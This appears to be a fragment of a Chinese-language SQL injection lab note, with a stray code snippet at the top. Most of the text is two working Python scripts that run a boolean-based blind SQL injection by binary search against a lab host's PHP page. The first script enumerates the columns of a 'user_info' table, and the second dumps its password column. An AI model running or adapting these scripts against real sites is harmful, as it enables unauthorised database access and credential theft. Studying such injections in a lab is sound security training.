 ```py
    if high <= 32:
        break
```

user_info

```py
import requests
url = 'http://10.3.4.95/bool_sql.php?id='
res = ""
sign = 0
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"1' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = 'user_info'),{i},1))>{middle}%23"
        # print(payload)
        r = requests.get(url + payload)
        if 'success' in r.text:
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```

group_concat是一个聚合函数，作用于列，不要放错地方

id,username,password 

```py
import requests
url = 'http://10.3.4.95/bool_sql.php?id='
res = ""
sign = 0
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"1' and ascii(substr((select group_concat(password) from user_db.user_info),{i},1))>{middle}%23"
        # print(payload)
        r = requests.get(url + payload)
        if 'success' in r.text:
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```
